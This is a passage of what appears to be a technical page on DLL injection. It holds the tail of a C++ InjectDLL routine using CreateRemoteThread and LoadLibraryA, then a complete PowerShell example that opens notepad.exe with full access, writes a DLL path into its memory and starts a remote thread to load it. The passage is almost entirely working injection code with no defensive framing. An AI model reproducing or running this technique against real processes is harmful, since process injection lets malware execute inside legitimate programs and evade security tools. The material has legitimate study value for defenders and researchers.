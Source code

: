 ```cpp
        std::cerr << "Failed to write memory in target process." << std::endl;
        VirtualFreeEx(processHandle, allocMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return;
    }

    HANDLE threadHandle = CreateRemoteThread(processHandle, nullptr, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, allocMemory, 0, nullptr);
    if (!threadHandle) {
        std::cerr << "Failed to create remote thread." << std::endl;
        VirtualFreeEx(processHandle, allocMemory, 0, MEM_RELEASE);
        CloseHandle(processHandle);
        return;
    }

    WaitForSingleObject(threadHandle, INFINITE);
    VirtualFreeEx(processHandle, allocMemory, 0, MEM_RELEASE);
    CloseHandle(threadHandle);
    CloseHandle(processHandle);
    std::cout << "DLL injection successful." << std::endl;
}

int main() {
    const char* processName = "targetprocess.exe";
    const char* dllPath = "C:\\path\\to\\your\\dll.dll";
    InjectDLL(processName, dllPath);
    return 0;
}
```

### PowerShell Example of DLL Injection

```powershell
# Define the process name and DLL path
$processName = "notepad.exe"
$dllPath = "C:\\path\\to\\your\\dll.dll"

# Get the process ID of the target process
$process = Get-Process -Name $processName
$processId = $process.Id

# Open the process with all access rights
$processHandle = [Kernel32]::OpenProcess(0x1F0FFF, $false, $processId)

# Allocate memory in the target process
$memoryAddress = [Kernel32]::VirtualAllocEx($processHandle, [IntPtr]::Zero, [Text.Encoding]::ASCII.GetByteCount($dllPath) + 1, 0x3000, 0x40)

# Write the DLL path to the allocated memory
[Kernel32]::WriteProcessMemory($processHandle, $memoryAddress, [Text.Encoding]::ASCII.GetBytes($dllPath), [Text.Encoding]::ASCII.GetByteCount($dllPath) + 1, [ref]$null)

# Load the DLL by creating a remote thread
$loadLibraryAddr = [Kernel32]::GetProcAddress([Kernel32]::GetModuleHandle("kernel32.dll"), "LoadLibraryA")
$threadHandle = [Kernel32]::CreateRemoteThread($processHandle, [IntPtr]::Zero, 0, $loadLibraryAddr, $memoryAddress, 0, [ref]$null)

# Wait for the remote thread to complete
[Kernel32]::WaitForSingleObject($threadHandle, 0xFFFFFFFF)

# Clean up
[Kernel32]::VirtualFreeEx($processHandle, $memoryAddress, 0, 0x8000)
```